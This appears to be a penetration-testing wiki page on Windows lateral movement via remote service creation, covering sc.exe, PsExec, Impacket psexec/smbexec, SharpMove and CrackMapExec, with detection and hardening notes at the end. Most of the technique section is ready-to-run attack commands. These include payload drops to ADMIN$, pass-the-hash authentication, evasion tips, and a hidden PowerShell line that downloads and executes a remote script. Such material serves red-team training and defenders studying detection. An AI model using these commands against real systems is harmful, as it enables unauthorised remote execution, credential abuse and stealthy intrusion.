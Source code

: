 # PsExec/Winexec/ScExec/SMBExec

{{#include ../../banners/hacktricks-training.md}}

## How do they work

These techniques abuse the Windows Service Control Manager (SCM) remotely over SMB/RPC to execute commands on a target host. The common flow is:

1. Authenticate to the target and access the ADMIN$ share over SMB (TCP/445).
2. Copy an executable or specify a LOLBAS command line that the service will run.
3. Create a service remotely via SCM (MS-SCMR over \PIPE\svcctl) pointing to that command or binary.
4. Start the service to execute the payload and optionally capture stdin/stdout via a named pipe.
5. Stop the service and clean up (delete the service and any dropped binaries).

Requirements/prereqs:
- Local Administrator on the target (SeCreateServicePrivilege) or explicit service creation rights on the target.
- SMB (445) reachable and ADMIN$ share available; Remote Service Management allowed through host firewall.
- UAC Remote Restrictions: with local accounts, token filtering may block admin over the network unless using the built-in Administrator or LocalAccountTokenFilterPolicy=1.
- Kerberos vs NTLM: using a hostname/FQDN enables Kerberos; connecting by IP often falls back to NTLM (and may be blocked in hardened environments).

### Manual ScExec/WinExec via sc.exe

The following shows a minimal service-creation approach. The service image can be a dropped EXE or a LOLBAS like cmd.exe or powershell.exe.

```cmd
:: Execute a one-liner without dropping a binary
sc.exe \\TARGET create HTSvc binPath= "cmd.exe /c whoami > C:\\Windows\\Temp\\o.txt" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc

:: Drop a payload to ADMIN$ and execute it (example path)
copy payload.exe \\TARGET\ADMIN$\Temp\payload.exe
sc.exe \\TARGET create HTSvc binPath= "C:\\Windows\\Temp\\payload.exe" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc
```

Notes:
- Expect a timeout error when starting a non-service EXE; execution still happens.
- To remain more OPSEC-friendly, prefer fileless commands (cmd /c, powershell -enc) or delete dropped artifacts.

Find more detailed steps in: https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

## Tooling and examples

### Sysinternals PsExec.exe

- Classic admin tool that uses SMB to drop PSEXESVC.exe in ADMIN$, installs a temporary service (default name PSEXESVC), and proxies I/O over named pipes.
- Example usages:

```cmd
:: Interactive SYSTEM shell on remote host
PsExec64.exe -accepteula \\HOST -s -i cmd.exe

:: Run a command as a specific domain user
PsExec64.exe -accepteula \\HOST -u DOMAIN\user -p 'Passw0rd!' cmd.exe /c whoami /all

:: Customize the service name for OPSEC (-r)
PsExec64.exe -accepteula \\HOST -r WinSvc$ -s cmd.exe /c ipconfig
```

- You can launch directly from Sysinternals Live via WebDAV:

```cmd
\\live.sysinternals.com\tools\PsExec64.exe -accepteula \\HOST -s cmd.exe /c whoami
```

OPSEC
- Leaves service install/uninstall events (Service name often PSEXESVC unless -r is used) and creates C:\Windows\PSEXESVC.exe during execution.

### Impacket psexec.py (PsExec-like)

- Uses an embedded RemCom-like service. Drops a transient service binary (commonly randomized name) via ADMIN$, creates a service (default often RemComSvc), and proxies I/O over a named pipe.

```bash
# Password auth
psexec.py DOMAIN/user:Password@HOST cmd.exe

# Pass-the-Hash
psexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST cmd.exe

# Kerberos (use tickets in KRB5CCNAME)
psexec.py -k -no-pass -dc-ip 10.0.0.10 DOMAIN/user@host.domain.local cmd.exe

# Change service name and output encoding
psexec.py -service-name HTSvc -codec utf-8 DOMAIN/user:Password@HOST powershell -nop -w hidden -c "iwr http://10.10.10.1/a.ps1|iex"
```

Artifacts
- Temporary EXE in C:\Windows\ (random 8 chars). Service name defaults to RemComSvc unless overridden.

### Impacket smbexec.py (SMBExec)

- Creates a temporary service that spawns cmd.exe and uses a named pipe for I/O. Generally avoids dropping a full EXE payload; command execution is semi-interactive.

```bash
smbexec.py DOMAIN/user:Password@HOST
smbexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST
```

### SharpLateral and SharpMove

- [SharpLateral](https://github.com/mertdas/SharpLateral) (C#) implements several lateral movement methods including service-based exec.

```cmd
SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName
```

- [SharpMove](https://github.com/0xthirteen/SharpMove) includes service modification/creation to execute a command remotely.

```cmd
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```

- You can also use CrackMapExec to execute via different backends (psexec/smbexec/wmiexec):

```bash
cme smb HOST -u USER -p PASS -x "whoami" --exec-method psexec
cme smb HOST -u USER -H NTHASH -x "ipconfig /all" --exec-method smbexec
```

## OPSEC, detection and artifacts

Typical host/network artifacts when using PsExec-like techniques:
- Security 4624 (Logon Type 3) and 4672 (Special Privileges) on target for the admin account used.
- Security 5140/5145 File Share and File Share Detailed events showing ADMIN$ access and create/write of service binaries (e.g., PSEXESVC.exe or random 8-char .exe).
- Security 7045 Service Install on target: service names like PSEXESVC, RemComSvc, or custom (-r / -service-name).
- Sysmon 1 (Process Create) for services.exe or the service image, 3 (Network Connect), 11 (File Create) in C:\Windows\, 17/18 (Pipe Created/Connected) for pipes such as \\.\pipe\psexesvc, \\.\pipe\remcom_*, or randomized equivalents.
- Registry artifact for Sysinternals EULA: HKCU\Software\Sysinternals\PsExec\EulaAccepted=0x1 on the operator host (if not suppressed).

Hunting ideas
- Alert on service installs where the ImagePath includes cmd.exe /c, powershell.exe, or TEMP locations.
- Look for process creations where ParentImage is C:\Windows\PSEXESVC.exe or children of services.exe running as LOCAL SYSTEM executing shells.
- Flag named pipes ending with -stdin/-stdout/-stderr or well-known PsExec clone pipe names.

## Troubleshooting common failures
- Access is denied (5) when creating services: not truly local admin, UAC remote restrictions for local accounts, or EDR tampering protection on the service binary path.
- The network path was not found (53) or could not connect to ADMIN$: firewall blocking SMB/RPC or admin shares disabled.
- Kerberos fails but NTLM is blocked: connect using hostname/FQDN (not IP), ensure proper SPNs, or supply -k/-no-pass with tickets when using Impacket.
- Service start times out but payload ran: expected if not a real service binary; capture output to a file or use smbexec for live I/O.

## Hardening notes
- Windows 11 24H2 and Windows Server 2025 require SMB signing by default for outbound (and Windows 11 inbound) connections. This does not break legitimate PsExec usage with valid creds but prevents unsigned SMB relay abuse and may impact devices that don’t support signing.
- New SMB client NTLM blocking (Windows 11 24H2/Server 2025) can prevent NTLM fallback when connecting by IP or to non-Kerberos servers. In hardened environments this will break NTLM-based PsExec/SMBExec; use Kerberos (hostname/FQDN) or configure exceptions if legitimately needed.
- Principle of least privilege: minimize local admin membership, prefer Just-in-Time/Just-Enough Admin, enforce LAPS, and monitor/alert on 7045 service installs.

## See also

- WMI-based remote exec (often more fileless):

{{#ref}}
./wmiexec.md
{{#endref}}

- WinRM-based remote exec:

{{#ref}}
./winrm.md
{{#endref}}



## References

- PsExec - Sysinternals | Microsoft Learn: https://learn.microsoft.com/sysinternals/downloads/psexec
- SMB security hardening in Windows Server 2025 & Windows 11 (signing by default, NTLM blocking): https://techcommunity.microsoft.com/blog/filecab/smb-security-hardening-in-windows-server-2025--windows-11/4226591

{{#include ../../banners/hacktricks-training.md}}
